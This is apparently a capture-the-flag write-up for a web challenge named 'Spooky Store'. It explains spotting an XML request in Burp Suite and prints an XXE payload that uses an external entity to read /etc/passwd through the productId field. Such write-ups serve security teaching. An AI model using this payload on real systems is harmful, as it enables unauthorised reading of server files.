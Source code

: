 **Spooky Store [web]**

-- It's a simple webpage with 3 buttons, you got this :)

![enter image description here](https://lh3.googleusercontent.com/RW2Afg0HPHpL2N251IR9uLn0K9bCVz2GEtG2rls-Sy6sVrGA37Yu3Sze3vzuYue7tyrFSMrQcYGQ46A0YCc91fNCHYadJqokvAWQd0tq_dj4JRQJOjb8jolQjDR2VGjPLvZQJTG1LG2YdTVnvnax01Y-g8TabqfyFu85UWn2ZvHJcEFaOIgHuPb2_FNId8FdYYF6ZzKqiuXVF7gaZaihVpF7HryIbDuoUAeDUtyrBV1OYDNVSd0JURHQnxzNZG_syrHYDm9KX91zDd2izTDa7nXZd31GuAi78pdg1LBqtyh6PtHsvtPTQduZskTV9AkHii8CdKR2q2F6YUecC4bUVA8dwBerZfDpa_2mA2US6KNj2sLzzTUU8ajRDyWL5Nh_yRsajhjmHFEPm3I8nrw58DWWP3Houq29TJHrD5z4PNJjdPgy1lbvDfnh66suDhVZjz42byYNmvhWsqDmRrf3ClOtYA_2Mdtg6-9-Zgq28YBQS1uU1z0wk905lOtdCpq1SjLecselTiOfdkXu01Hj-gC0igQX7G3757YFt-Wd4LlYuWv5XL2pEFWPHKmCVQqXAO0YampyHfGduerXFUNw4vREHnkUdy9rpYloExM0A6So9uzwcrKjFMCKUCp7rfY0m8p6BaE-V-Ke_kwMdZ53GzQI2bTQpn8kxgJCy0vFBwatR2xC7WjX=w1341-h545-no)


there are three buttons and if you press on them , you will get some locations coordinate values are output so we need to check it with burp suite we see the request in XML form , first thing that comes to mind is if is vulnerable to **XXE attacks** 
![enter image description here](https://lh3.googleusercontent.com/-3uxlORgZ2Z579_T2Yn-M3DlvThkkBMIMVZESoaXP9CQlf9FGSSoMKm-7YxsORjem5d4hdlOIPnZp9IAwaMk2VBwKOIiqr4PMaSOD6cdPlm-EGOIX67OwHkgHK3dM-DT6OVnvW-N626wQRmqK6FZAQkXtDWeYDfV_HiVBoBjtafLM0w56nmU_jbebHhtJpA1U17sGCxsVvXPHIZzqyRiFrEIbdCuWXpwDUED6O6EydlNiDlM-rgewcqBgYepzIP_vpFCWarOTj-kLRAP87is0n28smOlko3BcLSZAIBxnc7zcDXl_gceUGjNGvSG7TUNpnJM6zcrEOtpHEFGuR1c74Ynsuk4y8GkMuYFQCsv6kWX2xw2nRLf6k_coas3P41sG78XCcsa0iTs1hLPUMk3DDV566-S3b6T4kdt3Pt_JtLzt07mx5Xwb0RP08OZI8f7BufJXpw3H5Jemo_g6eKfN15jHLaVOsMVl22gTkdjakmmA8qMzgLxGSdZwzh1WC7M83aJJVSg8_oqLOFPQ9t5sdLQR9aKrejmMeQNg0ZaTBcetl5KUY07Wm0Hlkk3nAUEI_qnLAMhLDIwulx3MvVT-siu5mSAPzqBI1G4wncgn94j0a5daYpfOEisKuBLzVojVMCgnhED_OL6aRNTTUi5oqkw460D37df1lemmGbJqDcSRdoLzgX4=w1282-h578-no)
    
    
    <? xml version = "1.0" encoding = "UTF-8"?> <locationCheck><productId>1</productId> </locationCheck>


### **Disclosing /etc/passwd **



![enter image description here](https://lh3.googleusercontent.com/5YPwmnf2MMxEwm9kgqyQPJSm6Des_Ys8qn-uyQQiTl3rQFiC9kuMvDLdQT449rOZcP7kQrZexRTIRafC6H4QXLaI1VbCv-KiAqd_lajZZG5m4SF7qa9Efn7mB7luXqk2-o0XXUcSAUVNeJuiNsOfFFvWsfXn0Cm1SyBN_NPyw3O4PVxaCYl75vioOiR-_WjvPuHJQ1IMOVa82Ji-WKj4vpaZi1w2mdsmJtHlswnK06934CG0ah81o7umCCE7vdiyFkUK82zIIdVoaTLwtwUFzSBKKr0RSSmM9p8ev3FS31s47Jw4nLhXOrH7JiGzilHDIO7nPf7LuM-CbnNQoXymmaiAP0GlNEKkkn9RmR7nQGvf_fiC56OBbXCJK0owM4UWkhFNcJ_-wkbcK5TEGE_f8WIbwwKC3E9mlYLz3Qv-3OnGsWX9DX1ujV1HUrqz8OG35amVAXH9IKC6MeIY_GZV79a81VTOHNgw38eufVdRymncABK37stIRB9bb-pglUD_MisHJ11VbVeIMrrsqHy4RKetMaUBNKM0kMX_fB6VfBR4QKBK_IVJ7nLZSUbJrP7T2uQ3DN1FgQAmSJkXlC-G-J8VsDVSZZLOhRR9sz2iCRNZ6wKpo38EbPY355phD45qxZWrpMWAzafs68t1PFvy0p15vwR1NXB_owVLvfEjHuSw2iIrSTFl=w1275-h601-no)


    <? xml version = "1.0" encoding = "UTF-8"?> <! DOCTYPE netspi [<! ENTITY xxe SYSTEM "file: /// etc / passwd">]> <locationCheck><productId>&xxe;</productId> </locationCheck>


    
![enter image description here](https://lh3.googleusercontent.com/ZXe56OxkQKHbMBZu31O4NZwhlFchP7FNaa55AypzgSnnmw5eOmlwXD6uXeh-IjPGNk33hDcoK88lXQ9VAPW8J3Jaw6KDlubkMksAxLwz_w0BNwBsSQ_bio3_e7EJWmPgXHWVGNUqUB4fb_0yx9jCtlSNeX2GKM59itZEqEwgm9U6CqKy6ekpvOgg-xunBLW1ZivYh-lT979DAf42oRV97sjMmq-kPo-TS4DANNo4PIcjzGoNd5hEhH0XHSSMdMMCSO5wETQ2e-VxD5WGq-gVbdGN-GBo9w223AMPlNVftygHmb7DVnjSG-Watyg2PksGtwhXZiMUQHFQYBqwfMFAQhcdsAnU876amqN3MSLFMHRepyi_c73sVZpBBZjBluCcerjy6vegyZ5-Aj93_Dq_DOzsqtGuLxl4txRkQ1km5tN7wFKb5hg8AZkVgaPWvqmbpZm5QO5fIOMCoGU-cy_zN3P9ur9GwwUqx1nHAmOd67gN71vt5o0Ebua3lgtWwfuZYNhMOffbF4I81rIeTSHVzpu1FSEP022nTs_IYaxNaAUgVOSj6F3c75yup0N5vfyHvdCHyHSc4tKUyXoiDAb3hhdH5bzx5_rYvpfRyYjzOnnZkAaDXlgFq8DbFGDbnpi7jEiTUKxwu6wgJ3C0K1Kyq6xUUTY83ZH-3e2GeDdolQokDsGkQvY2=w608-h360-no)
